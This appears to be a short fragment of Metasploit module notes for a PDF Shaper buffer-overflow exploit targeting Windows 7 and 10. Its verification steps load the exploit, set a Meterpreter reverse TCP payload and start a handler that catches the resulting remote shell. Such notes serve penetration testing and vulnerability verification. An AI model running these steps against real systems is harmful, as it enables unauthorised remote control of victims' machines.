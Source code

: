update PDF Shaper from v3.5 to v9.9

Targets Win 7 and Win 10

Verification
use exploit/windows/fileformat/shaper_pdf_bof.rb

set payload windows/meterpreter/reverse_tcp

set lhost (IP of Local Host)

exploit

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost (IP of Local Host)

exploit
